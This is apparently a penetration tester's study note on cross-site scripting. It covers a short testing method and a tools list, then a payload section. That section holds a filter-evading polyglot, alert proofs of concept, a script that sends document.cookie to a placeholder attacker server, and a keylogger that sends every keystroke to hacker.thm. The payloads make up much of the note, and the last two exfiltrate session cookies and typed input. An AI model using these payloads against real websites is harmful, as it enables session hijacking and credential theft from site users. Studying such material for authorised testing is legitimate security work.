 **Type:** #type/theory
**Tags:**  #goal/exploitation #tech/web 

---
Fundamentals: [[2_Tech-Specifics/Web/OWASP TOP 10/XSS Fundamentals|XSS Fundamentals]]
# Testing Method
1. find entry points - see [[2_Tech-Specifics/Web/OWASP TOP 10/XSS Fundamentals|XSS Fundamentals]]
2. check the context of the entrypoint 
	- is encoding applied?
	- surrounding source code
		- Do we need to end a string or function in javascript?
		- do we need to end an html tag?
3. input special characters to test if input sanitation is applied
	- e.g. `< > ' " { } ;` - e.g. " might end up escaped
# Tools:
- https://xsshunter.com/
- [[3_Tools/web/Burp Suite|Burp Suite]]
- [[3_Tools/web/cURL|cURL]]

> [!warning] XSS is often blocked on google chrome but possible in firefox 
>
# Payloads
in most cases you have to put some characters before the payload to close a tag or input string parameter.

useful function: `onload="alert('XSS');` to use when loading files

use Polyglots to escape all kinds of attributes and circumvent filters at once. eg: ``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e`` ^056bc0

## Examples:
simplest proof of concept:
`<script>alert(1)</script>`
to display the websites hostname:
`<script>alert(window.location.hostname)</script>`
to display “XSS”
`<script>alert("XSS")</script>`
``_<iframe src="javascript:alert(`xss`)">_`` 

`<a onmouseover="alert(1)" href="#">read this!</a>`
### steal session cookie:
`<script>alert(document.cookie);</script>`
`<script> location.replace("[attacker webserver]?cookie=" + document.cookie) </script>`
this only works if the "httponly" attribute is not set for the cookie.
### keylogger:
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`